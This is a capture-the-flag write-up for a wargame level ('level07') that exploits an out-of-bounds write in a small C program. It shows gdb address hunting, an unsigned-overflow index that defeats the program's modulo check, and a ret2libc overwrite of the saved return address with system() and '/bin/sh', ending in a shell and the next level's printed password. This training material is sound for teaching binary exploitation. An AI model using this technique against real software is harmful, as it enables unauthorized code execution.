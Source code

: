 The program starts by clearing the environment and arguments before entering a loop that allows the use of 3 commands: store, read, and quit:

```c
while (true)
    {
        printf("Input command: ");
        int result = 1;
        char input[20] = {0};
        fgets(&input, 20, stdin);
        input[strcspn(&input, "\n")] = 0;

        if (!strncmp(&input, "store", 5))
            result = store_number(&buffer);
        if (!strncmp(&input, "read", 4))
            result = read_number(&buffer);
        if (!strncmp(&input, "quit", 4))
            return 0;
        if (result == 0)
            printf(" Completed %s command successfully…", input);
        else
            printf(" Failed to do %s command\n", input);
        memset(input, 0, 20);
    }
```

It quickly becomes apparent that it is possible to read and store values at locations far beyond the  `int buffer[100]` 
declared in the main at any value, with the exception of `store_number()` which protects multiples of 3:

```C
int store_number(int buffer)
{
  int number;
  int index;
  int ret;
  
  printf(" Number: ");
  number = get_unum();
  printf(" Index: ");
  index = get_unum();
  if ((index % 3 == 0) || (number >> 24 == 183)) {
    puts(" *** ERROR! ***");
    puts("   This index is reserved for wil!");
    puts(" *** ERROR! ***");
    ret = 1;
  }
  else {
    // assign the value of number at the index of the buffer
    *(unsigned int *)(index * 4 + buffer) = number;
    ret = 0;
  }
  return ret;
}

int read_number(int arg1)
{
    int var_10 = 0;
    printf(" Index: ");
    int nb = get_unum();
    printf(" Number at data[%u] is %u\n", nb, *((nb << 2) + arg1));
    return 0;
}
```

Okay, `store_number()` allows writing just about anywhere in memory at an unsigned int32 memory space, 
so 4 bytes, enough space for an address, for example.

We can find the precise index of EIP relative to the buffer's address to see if it's possible to reach it with a specific index, and attempt a ret2libc.

The buffer appears to be at `esp+0x24`, starting precisely at `0xffffd4a4`:
```nasm
   0x08048924 <+513>:	lea    0x24(%esp),%eax
   0x08048928 <+517>:	mov    %eax,(%esp)
   0x0804892b <+520>:	call   0x80486d7 <read_number>

...

(gdb) x/10d $esp+0x24
0xffffd4a4:	0	42	42	0
0xffffd4b4:	42	42	0	0
0xffffd4c4:	0	0
```

Let's also get the address of `system()`:
```nasm
Breakpoint 1, 0x08048729 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

And get the address of a buffer containing "/bin/sh" as in level05:
```nasm
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
We have a buffer located at `0xf7f897ec`.

Now, we need to find the main EIP index, which must be somewhere after the `int buffer[100]`.
```nasm
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd670:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd668, args: 
 Locals at 0xffffd668, Previous frame's sp is 0xffffd670
 Saved registers:
  ebp at 0xffffd668, eip at 0xffffd66c
```

EIP is located at `0xffffd66c` and contains the address `0xf7e45513`.

To find the distance between the two, we can do:

- EIP address - buffer[0] address = distance
- That is 0xffffd66c - 0xffffd4a4 = 0x1C8
- Or 4294956652 - 4294956196 = **456**

So, there's a gap of 456 bytes between them. Given it's an int array, each index number jumps 4 bytes. 
To find the precise index, just do the inverse operation, which is **456 / 4 = 114**.

But index 114 is protected:
```bash
Input command: store
 Number: 42
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```

Let's still verify if there's no error with the index 114:
```nasm
Input command: store
 Number: 42
 Index: 113
 Completed store command successfully
Input command: store
 Number: 42
 Index: 115
 Completed store command successfully
Input command: quit

Breakpoint 1, 0x080489ea in main ()
(gdb) x/50d 0xffffd65c 
0xffffd65c:	-134418444	0	0	42
0xffffd66c:	-136030957	42	-10492	-10484

...

(gdb) x/50x 0xffffd65c 
0xffffd65c:	0xf7fceff4	0x00000000	0x00000000	0x0000002a ; 2a = 42
0xffffd66c:	0xf7e45513	0x0000002a	0xffffd704	0xffffd70c
0xffffd67c:	0xf7fd3000	0x00000000	0xffffd71c	0xffffd70c
```

Indeed, it is the precise location of EIP, the values 42 (0x0000002a) of index 113 and 115 
surround the value `0xf7e45513` which is the address contained in EIP.

Now we need to find a way to bypass the following protection:
```C
if ((index % 3 == 0) || (number >> 24 == 183)) {
    puts(" *** ERROR! ***");
    puts("   This index is reserved for wil!");
    puts(" *** ERROR! ***");
    ret = 1;
  }
```

The address at which the number variable is assigned is cast to uint:
```C
else {
    // assign the value of number at the index of the buffer
    *(uint *)(index * 4 + buffer) = number;
    ret = 0;
  }
```

As the index value is multiplied by 4, we can attempt a uint overflow to write 
index 114 without the index % 3 value being equal to 0.

For reference, the UINT32 max is 4294967295 or 0xffffffff. Using this site, 
we can easily compare values and their overflow: https://www.simonv.fr/TypesConvert/?integers

To start overflowing, we therefore need to do 4294967295(UINT32 MAX) + 458(the distance) = **4294967753**

And divide it all by 4 to have a value that can be indexed like uint pointer, which gives 4294967753 / 4 = **1073741938**

Since 1073741938 % 3 = 1, we will be able to write this value without being blocked by the protection if it's work.

Let's test if we've managed to rewrite EIP:
```bash
Input command: store
 Number: 42
 Index: 1073741938
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0x0000002a in ?? ()
```

Perfect it works! 🙂

Now, we simply need to add the decimal value of `system()` instead of the address contained in EIP, 
and write 4 bytes further the address of the buffer containing "/bin/sh" to add it as a parameter of `system()`.

- System address: 0xf7e6aed0 = `4159090384` to enter at index `1073741938` to replace EIP's main address
- Don't write a clean `exit()` return address after EIP because we're rebelz like Sanic the hedgahag
- Address of /bin/sh: 0xf7f897ec = `4160264172` to enter by skipping 4 bytes at index 116 because 116 is not protected

```C
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```

Aaand we get the flag !
```bash
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
